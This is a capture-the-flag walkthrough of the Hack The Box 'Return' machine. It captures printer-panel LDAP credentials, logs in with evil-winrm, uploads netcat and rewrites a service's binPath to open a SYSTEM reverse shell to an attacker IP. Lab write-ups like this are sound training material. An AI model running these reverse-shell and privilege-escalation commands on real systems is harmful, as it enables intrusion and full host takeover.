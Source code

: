 ```yaml
---
description: https://app.hackthebox.com/machines/Return
---
```


# ☄️ Return

<figure><img src="../../.gitbook/assets/image (1009).png" alt=""><figcaption></figcaption></figure>

We first see this nmap output:

<figure><img src="../../.gitbook/assets/image (1010).png" alt=""><figcaption></figcaption></figure>

On the webpage we can see a printer admin panel ->

<figure><img src="../../.gitbook/assets/image (1011).png" alt=""><figcaption></figcaption></figure>

With settings that seem to be vulnerable:

<figure><img src="../../.gitbook/assets/image (1012).png" alt=""><figcaption></figcaption></figure>

Inspect element did not work on the password field so i set up a listener on port 389, modify the hostname and hit update button ->

<figure><img src="../../.gitbook/assets/image (1013).png" alt=""><figcaption></figcaption></figure>

With a quick evil-winrm we can get a shell ->

```
evil-winrm -i 10.129.95.241 -u svc-printer -p '1edFg43012!!'
```

and get a flag

Now the enumeration part is looking at the privileges of the account and what groups is he a part of ->

```
whoami /all    
```

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/" %}

<figure><img src="../../.gitbook/assets/image (1014).png" alt=""><figcaption></figcaption></figure>

So i follow the methodology of the documentation and put netcat on the target machine ->

```
upload /usr/share/sqlninja/apps/nc.exe
```

{% hint style="info" %}
we replace the service binary with netcatthen it will give us a reverse shell as a system user because the service is starting as a system on the compromised host.
{% endhint %}

```
sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.14.58 1234"
```

{% hint style="info" %}
Then we will stop the service and start it again. So, this time when service starts, it will execute the binary that we have set in set earlier.
{% endhint %}

```
sc.exe start VMTools
nc -nlvp 1234 //on local machine
sc.exe stop VMTools
```

and obtain a shell as system

<figure><img src="../../.gitbook/assets/image (1015).png" alt=""><figcaption></figcaption></figure>

explanation of the SC command:

* **`sc.exe`**:
  * This is the Service Control utility in Windows, used for communicating with the Service Control Manager and services.
* **`config`**:
  * This argument specifies that you are changing the configuration of a service.
* **`VMTools`**:
  * The name of the service you are configuring. In this case, "VMTools".
* **`binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.14.58 1234"`**:
  * This parameter sets the executable path and arguments that the service will run.
  * **`C:\Users\svc-printer\Desktop\nc.exe`**: Specifies the path to the executable, which is `nc.exe` (Netcat).
  * **`-e cmd.exe`**: An option for Netcat to execute a specified program (`cmd.exe`) after establishing a connection.
  * **`10.10.14.58 1234`**: The IP address and port to which Netcat will connect. In this example, it connects to `10.10.14.58` on port `1234`.
* This command changes the executable path of the "VMTools" service to run `nc.exe` (Netcat) instead of its original executable.
* **Remote Shell**: The `nc.exe -e cmd.exe 10.10.14.58 1234` part tells Netcat to open a command shell (`cmd.exe`) and send it to the specified IP address and port.
* **Backdoor**: This effectively turns the "VMTools" service into a backdoor, allowing an attacker to connect to the machine remotely and gain command line access.

<figure><img src="../../.gitbook/assets/image (1016).png" alt=""><figcaption></figcaption></figure>
